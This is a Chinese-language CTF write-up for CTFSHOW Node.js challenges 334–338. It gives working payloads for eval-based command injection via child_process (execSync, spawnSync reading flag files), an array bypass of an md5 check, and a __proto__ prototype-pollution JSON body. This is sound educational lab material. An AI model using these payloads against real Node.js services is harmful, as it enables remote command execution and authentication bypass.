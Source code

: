 ```yaml
---
title: CTFSHOW nodejs 334-338
date: 2024-08-05 16:36:39
permalink: /pages/a11a87/
categories:
  - wp
tags:
  - 
author: 
  name: Cola
  link: https://the0n3.top
---
```

# CTFSHOW nodejs 334-338

nodejs是跨平台的 JavaScript 后端语言，用于开发服务器端应用程序。它能够执行文件读取、数据库查询等服务器端操作

参考文章

[CTFSHOW-nodejs](https://blog.csdn.net/Yb_140/article/details/124510337)
[node官方文档](https://nodejs.cn/api/)
[node官方文档--子进程](https://nodejs.cn/api/child_process.html#child-process)

## web 334 审计

下载文件添加zip扩展名，解压得到两个js文件

user.js里存储了用户名，密码

![user](https://the0n3.top/medias/show-nodejs/1.png)

login.js里存放了登录的操作过程

```js
return name!=='CTFSHOW' && item.username === name.toUpperCase() && item.password === password;
```


关键语句，登录的用户名不能等于“CTFSHOW”,登录用户名的大写等于存放的用户名“CTFSHOW”，密码等于存放的密码“123456”


所以，name=ctfshow，pwd=123456

## web 335 命令执行

查看源码，?eval，提示get传参执行命令，类似php的eval函数

![exec](https://the0n3.top/medias/show-nodejs/2.png)

看了这个文档，带exec的应该都能直接执行命令吧(稍加思考)

```
# payload1，成功
?eval=require("child_process").execSync("ls;tac fl00g.txt");
# payload2，失败
?eval=require("child_process").exec("ls");
```


execSync可以执行，exec不能直接执行命令的原因，execSync 是同步函数，它可以直接在 require 语句后调用，并立即返回执行结果，可以直接在一行代码中调用它来执行命令并获取输出。那么同进程的其他命令执行函数也是如此？

## web 336 命令执行

上一题payload打不通了。换个函数，spawnSync()，不要直接像上一题一样写一大坨命令例如：

```
spawnSync("ls;tac flag.txt")
```

在这函数规定了似乎不允许

![spawnSync](https://the0n3.top/medias/show-nodejs/3.png)

这个函数执行不能直接输出到页面，用stdout,toString()方法打印出
来

```
?eval=require("child_process").spawnSync("tac",['fl001g.txt']).stdout.toString();
```

## web 337

关键代码，接受参数a，b。类似php的一个md5比较，数组绕过

```js
var a = req.query.a;
var b = req.query.b;
if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
    res.end(flag);
}
```

url?a[]=1&b[]=1


## web 338 原型链污染

查看routes目录下login.js源码

![login](https://the0n3.top/medias/show-nodejs/4.png)

补充：javascript中，**所有对象都继承自一个原型对象，原型对象增加新的属性时，其他对象都会继承**

```js
const user = {name:"cola"}
const tool = {tools:"Google"}
Object.prototype.lang = "Python"
console.log(tool.lang)
//现在，打印结果出现了tool对象不存在的属性lang，从原型对象那里继承得来
//Python
```

代码会通过copy函数，把请求的内容赋值给user对象，如果我们给__proto__原型对象添加一个新的属性来影响原型对象的属性继承，那么就可以达到secert对象的属性ctfshow='36dboy'的条件

![api](https://the0n3.top/medias/show-nodejs/6.png)

查看源码，登录接口需要传json数据

那这里就可以传一个json对象，{"__proto__":{"ctfshow":"36dboy"}}，这样就让secert继承到ctfshow=36dboy的属性